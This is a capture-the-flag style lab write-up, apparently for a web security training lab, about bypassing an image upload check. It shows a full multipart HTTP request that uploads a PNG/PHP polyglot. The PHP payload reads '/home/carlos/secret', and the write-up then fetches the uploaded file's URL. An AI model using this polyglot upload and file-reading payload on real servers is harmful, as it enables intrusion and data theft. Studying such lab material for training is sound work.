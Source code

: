 This lab has the same robust mechanism as in the last lab in which they are checking the file magic bytes to check if the file is an image file or not. If the file is not an image file they give us the following error message

```
Sorry, only JPG & PNG files are allowed
```

Just like we did in the last lab we can upload php web shell code embedded in the image file that executes on the server. We send the following request to upload our `polyglot.php` that contains the code to exfiltrate data.

```
POST /my-account/avatar HTTP/2
Host: 0a5700ed0422427681f0023400a500c6.web-security-academy.net
Cookie: session=yFdbcw7x9oWw7bLfVbH4fUq0GI8mDsgI
Content-Length: 127323
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHAAA7Gc6mGjgH4Y6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36

------WebKitFormBoundaryHAAA7Gc6mGjgH4Y6
Content-Disposition: form-data; name="avatar"; filename="polyglot.php"
Content-Type: application/x-php

PNG

[redacted]<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>[Redacted]

------WebKitFormBoundaryHAAA7Gc6mGjgH4Y6
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryHAAA7Gc6mGjgH4Y6
Content-Disposition: form-data; name="csrf"

fLeQX28rivsYgPt7jJUMpTD63knx6XJE
------WebKitFormBoundaryHAAA7Gc6mGjgH4Y6--
```

In the above request, you can see we have the following PHP code in it.

```php
<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>
```

This code directly gets the content of the `/home/carlos/secret` file, but when we upload that it didn't give us any error message they also look like haven't been uploaded on the server because that image URL is not reflected on our profile page.

This makes speculation that the file is uploaded on the server and then deleted after validation. Knowing this we can send the GET request to the following URL.

```
https://0a5700ed0422427681f0023400a500c6.web-security-academy.net/files/avatars/polyglot.php
```
